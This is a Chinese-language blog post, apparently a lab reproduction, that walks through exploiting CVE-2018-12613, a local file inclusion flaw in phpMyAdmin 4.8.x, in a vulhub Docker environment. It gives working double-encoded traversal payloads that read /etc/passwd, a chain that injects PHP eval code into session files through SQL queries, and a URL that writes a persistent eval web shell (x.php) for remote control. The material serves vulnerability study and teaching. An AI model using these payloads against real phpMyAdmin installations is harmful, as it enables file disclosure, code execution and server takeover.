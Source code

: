 ```yaml
---
layout:     post             
title:      CVE-2018-12613 漏洞复现
date:       2023-07-14            
author:     sule01u                  
head-img:   img/unix-linux.jpg
catalog: true                      
tags:      
   - 漏洞复现
typora-root-url: ../img/cve-2018-12613
---
```


## CVE-2018-12613 本地文件包含漏洞详解

### 前言

phpMyAdmin是phpMyAdmin团队开发的一套免费的、基于Web的MySQL数据库管理工具。该工具能够创建和删除数据库，创建、删除、修改数据库表，执行SQL脚本命令等。 

> 漏洞影响范围 phpmyadmin 4.8.0 & 4.8.1

### 漏洞原理

服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码并且执行。

- 文件包含相关函数，代码审计时可关注如下几个函数

~~~
require()          # 函数出现错误的时候，会直接报错并退出程序的执行
require_once()     # 只包含一次
include()          # 在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行
include_once()     # 只包含一次
~~~

- 在存在漏洞的phpmyadmin的源代码的index.php中, 就出现了include函数

![image-20230716222403963](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/index_php.jpg)

- 根据上图，我们需要绕过前面几行条件的限制，条件如下

  - target参数不能为空
  - target参数必须为字符串
  - target 参数不能以index开头

  - target 参数不能出现在 $target_blacklist 内

    - 找到target_blacklist定义如下![image-20230716224109344](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/taeget_blacklist.png)

  - 参数必须通过白名单验证

    - Core::checkPageValidity($_REQUEST['target'])，我们查看Core类checkPageValidity方法源代码

    ![image-20230716230259840](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/core_check.png)

    - 白名单部分如下图所示

    ![截屏2023-07-16 23.31.44](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/whiteliat.png)

    - 所以利用二次编码“%253f”可以绕过checkPageValidity()的检查！

  - 构造payload

    > 由于二次解码只是在checkPageValidity()中执行的，在index.php中只做过一次解码

    1. checkPageValidity二次解码后,这个符合白名单验证，问号之前的文件在白名单之内
           

       ```
       /index.php?target=db_sql.php?/../../../../../../../../etc/passwd
       ```

    2. 绕过验证后，index.php一次解码后，如下所示，可以实现任意路径的文件访问
           

       ```
       /index.php?target=db_sql.php%3f/../../../../../../../../etc/passwd
       ```

    3. 最终payload

       ```
       /index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
       ```

### 漏洞验证

**复现环境： /vulhub/phpmyadmin/CVE-2018-12613**

```
# 切换到目标文件夹内,写你自己的路径
cd  /opt/vulhub/phpmyadmin/CVE-2018-12613 

# 拉取并启动容器
docker compose up -d

# 浏览器访问
http://localhost:8080

# 漏洞验证访问,/etc/passwd被读取，说明文件包含漏洞存在
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![截屏2023-07-16 23.13.27](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/etc_passwd.png)

### 漏洞利用

> 现在我们已经可以读取站点本地文件，那我们如何利用本地文件包含漏洞获取权限呢,？我们能写入一个webshell吗？ 咋写呢？
>
> ​	maybe可以试试session, php session文件可以存储会话的一些信息，我们来试试

- **执行 SQL语句 `SELECT '<?php phpinfo(); ?>'**

![image-20230717002336143](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/phpinfo.png)

- **根据session id查看session文件， cat /tmp/sess_06f6516222139397dee258dd594e5018**

![image-20230717002139736](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/session1.png)

- **包含session文件**

```
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_06f6516222139397dee258dd594e5018
```

​		成功包含session文件并执行了phpinfo![截屏2023-07-17 00.40.36](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/session.png)

- **既然可以通过session文件执行代码，那我们是否可以试试写入一句话木马**

```

# 通过sql查询写入一句话木马到session文件
	select "<?php @eval($_GET['s']);?>"
	
# 根据session id访问session文件，测试参数 s 是否能够成功执行命令
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_5e32e548ae8bb49bc7110dc2ec0ae06c?s=phpinfo();
```

​		成功执行phpinfo();

![截屏2023-07-17 01.17.45](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/arg_s.png)

- **写webshell**

~~~
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_5e32e548ae8bb49bc7110dc2ec0ae06c&s=fputs(fopen(%27x.php%27,%27w%27),%27%3C?php%20@eval($_POST[pass])?%3E%27);
~~~

查看web目录下是否成功写入， cat /var/www/html/x.php, 已成功写入一句话木马

![截屏2023-07-17 01.23.08](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/w_eval.png)

蚁剑连接一句话木马

![截屏2023-07-17 01.25.38](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/test_connect.png)

成功获取shell

![截屏2023-07-17 01.25.17](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/getshell.png)
